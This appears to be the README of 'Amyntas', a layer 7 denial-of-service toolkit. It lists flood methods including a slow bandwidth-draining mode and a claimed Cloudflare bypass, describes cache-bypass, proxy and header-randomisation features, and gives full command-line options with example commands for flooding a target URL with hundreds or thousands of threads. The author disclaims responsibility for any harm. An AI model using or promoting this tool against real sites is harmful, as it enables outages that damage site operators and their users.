 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <bn>
The webdrivers used for the <strong>Browser Emulation</strong> attack are Windows 64 bit executables, replace them if you need to!!

--- 

### About
Amyntas is a layer 7 DoS toolkit, with a variety of attack methods and the capability to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- `GET` (simple GET flood)
- `HEAD` (simple HEAD flood)
- `POST` (simple POST flood)
- `FAST` (a <strong>GET /</strong> flood)
- `GHP`/`GETHEADPOST` (a flood which randomly chooses GET, HEAD or POST as request method)
- `LEECH` (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- `MIX` (a method which randomly chooses HTTP request methods)
- `BYPASS` (bypasses cloudflare)
- `PROXY` (attack which uses a proxy file to attack)

---

### Features
1. IPv6 support
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxies coming soon)

---

### Known bugs/problems
1. Attack does not end when you want it to end

---

### To Do list
1. More methods
2. More documentation

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://pornhub.com)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy-file FILE_PATH                 Path to proxies
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its dynamic
-ref REFERER, --referer REFERER        Referer to use when attacking, else its dynamic
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info for devs
-bc, --bypass-cache                    Bypass the cache of the site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 1337
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

Proxified GET flood using a file with SOCKS5 proxies, with 1337 threads for 40 seconds
```
python3 amyntas.py --proxy-file socks5.txt --proxy-type SOCKS5 -t https://target.com -w 1337 -d 40
```

---

### Requirements

```
requests
argparse
colorama
netaddr
cloudscraper
selenium
undetected_chromedriver
```